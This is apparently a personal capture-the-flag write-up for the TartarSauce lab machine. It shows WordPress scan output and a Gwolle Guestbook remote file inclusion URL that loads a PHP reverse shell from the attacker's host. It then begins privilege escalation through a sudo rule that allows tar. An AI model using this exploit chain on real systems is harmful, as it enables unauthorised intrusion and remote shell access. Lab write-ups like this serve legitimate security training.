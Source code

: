   ```
   |  - http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
   | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
   |  - http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
  
  [+] gwolle-gb
   | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
   | Last Updated: 2020-05-15T14:11:00.000Z
   | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
   | [!] The version is out of date, the latest version is 4.0.2
   |
   | Found By: Known Locations (Aggressive Detection)
   |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
   |
   | Version: 2.3.10 (100% confidence)
   | Found By: Readme - Stable Tag (Aggressive Detection)
   |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
   | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
   |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
  ```

  * Gwolle is vulnerable to something even though the version says that it's not. W/e, i'll use it I guess. Oh, apparently the README of one of those is just a big troll. 

  ```
  WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
  ```

  * Make a php reverse shell and navigate to:

  ```
  http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/php-reverse-shell.
  ```

# Escalate

## www-data -> onuma

* Onuma user that I can't access. Need to get them first. There's no processes running as Onuma. 
* Sudo -l shows:

```
www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4$ sudo -l
sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```
